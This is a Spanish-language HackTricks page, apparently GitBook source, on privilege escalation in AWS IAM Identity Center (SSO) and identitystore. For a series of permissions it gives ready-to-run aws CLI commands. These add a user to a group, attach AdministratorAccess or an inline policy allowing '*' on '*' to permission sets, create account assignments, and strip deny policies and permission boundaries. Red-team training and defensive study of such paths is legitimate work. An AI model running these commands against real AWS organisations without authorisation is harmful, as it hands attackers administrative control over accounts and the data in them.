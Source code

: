 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Para más información sobre AWS Identity Center / AWS SSO consulta:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ten en cuenta que por **defecto**, solo **los usuarios** con permisos **del** **Management Account** podrán acceder y **controlar el IAM Identity Center**.\
Los usuarios de otras cuentas solo pueden permitirlo si la cuenta es un **Delegated Administrator.**\
[Consulta la documentación para más información.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Restablecer Contraseña~~

Una forma fácil de escalar privilegios en casos como este sería tener un permiso que permita restablecer las contraseñas de los usuarios. Desafortunadamente, solo es posible enviar un correo electrónico al usuario para restablecer su contraseña, por lo que necesitarías acceso al correo electrónico del usuario.

### `identitystore:CreateGroupMembership`

Con este permiso es posible agregar un usuario dentro de un grupo para que herede todos los permisos que tiene el grupo.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un atacante con este permiso podría otorgar permisos adicionales a un Conjunto de Permisos que se concede a un usuario bajo su control

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un atacante con este permiso podría otorgar permisos adicionales a un Conjunto de Permisos que se concede a un usuario bajo su control.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Un atacante con este permiso podría otorgar permisos adicionales a un Conjunto de Permisos que se le otorga a un usuario bajo su control.

{% hint style="warning" %}
Para abusar de estos permisos en este caso, necesitas conocer el **nombre de una política administrada por el cliente que esté dentro de TODAS las cuentas** que se verán afectadas.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Un atacante con este permiso podría otorgar un Conjunto de Permisos a un usuario bajo su control a una cuenta.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Devuelve las credenciales a corto plazo de STS para un nombre de rol dado que está asignado al usuario.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Sin embargo, necesitas un token de acceso que no estoy seguro de cómo obtener (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Un atacante con este permiso puede eliminar la asociación entre una política administrada de AWS y el conjunto de permisos especificado. Es posible otorgar más privilegios a través de **desvincular una política administrada (política de denegación)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Un atacante con este permiso puede eliminar la asociación entre una política gestionada por el cliente y el conjunto de permisos especificado. Es posible otorgar más privilegios a través de **desvincular una política gestionada (política de denegación)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Un atacante con este permiso puede eliminar los permisos de una política en línea del conjunto de permisos. Es posible otorgar **más privilegios al desvincular una política en línea (política de denegación)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Un atacante con este permiso puede eliminar el Límite de Permisos del conjunto de permisos. Es posible otorgar **más privilegios al eliminar las restricciones del Conjunto de Permisos** dado por el Límite de Permisos.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
